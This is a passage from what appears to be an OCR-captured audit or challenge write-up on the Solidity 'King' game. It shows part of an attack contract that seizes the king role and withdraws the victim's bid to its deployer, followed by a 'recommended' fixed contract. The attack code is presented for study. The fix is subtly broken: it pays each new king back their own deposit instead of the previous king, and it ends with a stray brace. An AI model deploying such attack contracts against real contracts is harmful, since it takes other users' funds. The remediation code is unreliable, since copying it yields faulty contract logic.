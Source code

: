   ```code
        // This makes the call to the King's receive function.
        // The King contract's logic will:
        // 1. Check requirement (passes, as msg.value > prize).
        // 2. Pay the old king (whoever it was) with this msg.value.
        // 3. Set THIS contract (msg.sender) as the new king.
        (bool success, ) = address(target).call{value: msg.value}("");
        require(success, "King contract call failed (Front-run).");
        
        // IMPORTANT: After this call is successful, this Attack contract is the new king.
        // The next transaction to the King contract will pay this contract.
    }

    /**
     * @notice Retrieves the Ether that was paid to this contract by the victim.
     * @dev Should only be called AFTER the victim's high-value transaction has been mined.
     */
    function withdrawProfit() public {
        require(msg.sender == deployer, "Only the deployer can withdraw.");
        
        // The total balance here should equal:
        // (Initial ETH - Attacker Bid Cost) + (Victim's High Bid Payment)
        uint256 balance = address(this).balance;
        payable(deployer).transfer(balance);
    }

    /**
     * @notice Allows the contract to receive ETH back from the King contract (the victim's payment).
     */
    receive() external payable {}
}
  ```
  
### Recommendation:
  Do the effect before the transaction:
  ```code
   // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        king = msg.sender;
        prize = msg.value;
        payable(king).transfer(msg.value);
    }

    function _king() public view returns (address) {
        return king;
    }
}
}
```